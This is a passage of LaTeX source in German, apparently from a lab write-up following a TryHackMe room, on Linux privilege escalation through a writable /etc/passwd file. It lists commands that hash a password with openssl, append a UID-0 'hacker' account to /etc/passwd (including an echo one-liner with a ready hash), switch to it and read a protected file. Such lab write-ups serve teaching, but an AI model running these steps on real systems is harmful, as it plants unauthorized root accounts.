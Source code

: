 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/ScanSchwachstellen}
        \caption{Scan auf Schwachstellen nach oben beschriebenen Vorgehen.
        Mögliche Schwachstellen erkannt bei den Schreibrechten der /etc/passwd Datei und der Sudo Version 1.8.27.}
        \label{fig:scan}
    \end{figure}
    \noindent



    \subsubsection{Privilege Escalation unter Ausnutzung der /etc/passwd Datei}
    \label{subsubsec:privilegeEscalation1}
    Nachdem mögliche Schwachstellen bereits aufgedeckt wurden, gilt es diese nun auszunutzen.
    Tims Freund~\textcite{privilegeEscalationRaumTryHackMe} beschreibt in seinem \href{https://tryhackme.com/room/linprivesc}{\textbf{TryHackMe Raum}} anschaulich wie ein neuer Nutzer in die /etc/passwd Datei eingefügt werden kann.
    Kurz und prägnant zusammengefasst, ist dies durch folgende Schritte zu erreichen:

    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root:/bin/bash um einen root Nutzer zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}
\end{document}
